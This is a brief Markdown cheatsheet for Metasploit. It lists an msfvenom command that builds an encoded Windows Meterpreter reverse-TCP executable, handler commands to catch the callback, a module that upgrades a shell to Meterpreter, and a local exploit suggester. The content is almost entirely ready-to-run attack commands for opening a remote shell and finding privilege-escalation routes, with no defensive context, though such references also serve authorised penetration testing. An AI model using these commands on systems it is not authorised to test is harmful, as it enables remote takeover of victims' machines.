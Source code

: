 # Metasploit Cheatsheet

## Create Windows Meterpreter Reverse Shell Payload
`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe`

## Catch a Reverse Shell
`use exploit/multi/handler`

`set PAYLOAD windows/meterpreter/reverse_tcp`

`set LHOST your-ip`

`set LPORT listening-port`

`run`

## Upgrade to Meterpreter Shell
`post/multi/manage/shell_to_meterpreter`

## Find Local exploits
`meterpreter> run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true`